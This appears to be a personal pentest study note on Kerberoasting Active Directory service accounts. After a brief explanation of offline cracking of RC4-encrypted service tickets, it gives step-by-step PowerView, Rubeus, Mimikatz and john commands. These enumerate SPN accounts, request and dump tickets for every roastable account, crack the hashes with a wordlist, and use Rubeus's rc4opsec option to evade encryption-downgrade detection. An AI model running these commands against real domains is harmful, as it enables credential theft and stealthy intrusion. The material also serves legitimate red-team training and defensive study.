 ```yaml
---
tags:
  - privesc
cssclasses:
  - Rubeus
  - MimiKatz
  - john
  - TGS-REP
---
```

- [Offline cracking of service account passwords.](https://www.redsiege.com/wp-content/uploads/2020/08/Kerberoastv4.pdf)
- The [[Kerberos]] session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
- Because (non-machine) service account passwords are not frequently changed, this is a good attack vector.
- An important point to note is that we need a service ticket that is encrypted with an NTLM hash (RC4) and not AES, which uses a salt. Bruteforcing the AES key would be extremely difficult.
- The DC will, however, oblige to the client's requests of using a ticket with downgraded encryption. Unless RC4 is disabled throughout the forest.
#### Obtaining tickets

```powershell title:"Find user accounts used as service accounts (PowerView)"
Get-DomainUser -SPN
```

```powershell title:"Find user accounts used as service accounts (ActiveDirectory Module)"
Get-ADUser -Filter {ServicePrincipleName -ne "$null"} -Properties ServicePrincipalName
```

```batch title:"Use Rubeus to list Kerberoast stats"
Rubeus.exe kerberoast /stats
```

```batch title:"Use Rubeus to request a TGS"
Rubeus.exe kerberoast /user:username /simple
```

```powershell title:"Alternative: Request TGS using PowerView.ps1"
Invoke-Kerberoast | select Hash | ConvertTo-Csv
```

```batch title:"To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC"
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:username /simple /rc4opsec
```

```batch title:"Kerberoast all possible accounts"
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

#### Cracking

```batch title:"Crack the ticket"
john.exe --wordlist:C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

#### Misc.

```batch title:"Check if the ticket has been granted"
klist.exe
```

```powershell title:"Export all tickets using Mimikatz (that were imported via /ptt)?"
Invoke-MimiKatz -Command '"kerberos::list /export"'
```

```batch title:"Crack the service account password"
python.exe .\tgsrepcrack.py .\10k-worst-passwords.txt 'tgs_file_name.kirbi'
```
